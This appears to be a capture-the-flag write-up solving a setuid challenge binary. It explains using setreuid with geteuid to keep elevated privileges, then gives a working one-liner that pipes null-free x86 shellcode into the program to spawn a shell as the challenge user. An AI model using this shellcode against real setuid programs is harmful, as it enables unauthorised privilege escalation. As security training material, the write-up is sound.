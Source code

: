 ## Solution

We can both use [Shellstorm shellcodes](https://shell-storm.org/shellcode/files/shellcode-399.html) or create or own.

Because it's a setuid program, we have to set our ID (rid = real user id) to the temporary value of the setuid program (euid = effective user id).
One method is to use `int setreuid(uid_t ruid, uid_t euid);` with `geteuid()` as arguments in order to overwrite ruid<-euid and to gain pwn3r-cracked rights.

Basically we have to write this code in assembly, without null bytes (it will stop the program as a string end), using less than 34 bytes (buffer is 35 including \0):

```c
#include <stdio.h>
#include <stdlib.h>

void main(){
    setreuid(geteuid(),geteuid());
    system("/bin/bash");
}
```

Here we can:

    - use https://shell-storm.org/ to use an existing x86 setuid shellcode
    - use https://x86.syscall.sh/ to program in x86 assembly ()

Then profit:

```sh
(echo -ne "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"; cat) | ./code_me
```
